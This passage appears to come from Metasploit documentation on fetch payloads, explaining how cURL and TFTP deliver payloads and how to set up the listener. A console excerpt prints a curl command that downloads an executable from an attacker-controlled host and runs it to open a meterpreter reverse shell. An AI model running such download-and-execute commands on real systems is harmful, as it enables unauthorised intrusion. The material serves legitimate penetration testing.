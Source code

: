 If you have an exploit that already supports Unix Command payloads and you'd like it to support Linux Command payloads
like Fetch Payloads, you can simply add the `linux` value to the platform array:

```ruby
'Nix Command',
  {
    'Platform' => [ 'unix', 'linux' ],
    'Arch' => ARCH_CMD,
    'Type' => :unix_cmd,
  }
```

## Supported Commands
### Windows And Linux Both
#### `CURL` 
cURL comes pre-installed on Windows 10 and 11, and it is incredibly common on linux platforms and the options are very
standardized across releases and platforms.  This makes cURL a good default choice for both Linux and Windows 
targets.  All options and server protocol types are supported by the cURL command.

#### `TFTP` 
The TFTP binary is useful only in edge cases because of a long list of limitations:
1) It is a Windows feature, but it is turned off by default on Windows Vista and later.
2) While you are likely to find it on Linux and Unix hosts, the options are not standard across releases.
3) The TFTP binary included in many Linux systems and all Windows systems does not allow for the port to be configured,
nor does it allow for the destination filename to be configured, so `FETCH_SRVPORT` must always be set to 69 and 
`FETCH_WRITABLE_DIR` and `FETCH_FILENAME` must be empty.  Listening on port 69 in Framework can be problematic, so I
suggest that you use the advanced option `FetchListenerBindPort` to start the server on a different port and redirect
the connection with a tool like iptables to a high port.
For example, if you are on a linux host with iptables, you can execute the following commands to redirect a connection
on UDP port 69 to UDP port 3069:
`sudo iptables -t nat -I PREROUTING -p udp --dport 69 -j REDIRECT --to-ports 3069`
`sudo iptables -t nat -I OUTPUT -p udp -d 127.0.0.1 --dport 69 -j REDIRECT --to-ports 3069`
Then, you can set `FetchListenerBindPort` to 3069 and get the callback correctly.
4) Because tftp is a udp-based protocol and because od the implementation of the server within Framework, each time you
start a tftp fetch handler, a new service will start:
```msf
msf6 payload(cmd/windows/tftp/x64/meterpreter/reverse_tcp) > jobs

Jobs
====

  Id  Name                    Payload                                       Payload opts
  --  ----                    -------                                       ------------
  2   Exploit: multi/handler  cmd/windows/tftp/x64/meterpreter/reverse_tcp  tcp://10.5.135.201:4444

msf6 payload(cmd/windows/tftp/x64/meterpreter/reverse_tcp) > set LPORT 4445
LPORT => 4445
msf6 payload(cmd/windows/tftp/x64/meterpreter/reverse_tcp) > to_handler

[*] Command to run on remote host: curl -so plEYxIdBQna.exe tftp://10.5.135.201:8080/test1 & start /B plEYxIdBQna.exe
[*] Payload Handler Started as Job 4

```